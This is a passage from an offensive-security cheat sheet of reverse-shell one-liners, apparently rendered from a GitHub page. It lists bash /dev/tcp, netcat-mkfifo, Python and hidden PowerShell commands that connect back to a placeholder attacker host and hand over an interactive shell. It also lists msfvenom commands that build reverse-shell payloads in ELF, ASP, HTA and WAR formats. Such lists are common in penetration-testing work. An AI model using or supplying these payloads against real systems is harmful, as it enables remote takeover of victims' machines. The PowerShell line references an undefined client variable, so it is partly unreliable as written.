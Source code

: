     ```
    0<&196;exec 196<>/dev/tcp/<ATTACKER_IP>/<PORT>; sh <&196 >&196 2>&196
    ```

    ```
    /bin/bash -l > /dev/tcp/<ATTACKER_IP>/<PORT> 0<&1 2>&1
    ```

* Netcat OpenBSD (and also some Linux). In case nc doesn't have `-e` option or is blocked:

    ```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f
    ```

* Python:

    ```
    export RHOST="<ATTACKER_IP>";export RPORT=<PORT>;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

* Windows powershell:

    ```
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<IP>",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

    ```

* Some useful msfvenom payloads:

    ```
    # Linux Staged reverse TCP
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf

    # Stageless ASP reverse TCP
    msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > rev.asp

    # HTA-PSH
    msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh -o evil.hta

    # WAR
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > reverse.war
    ```

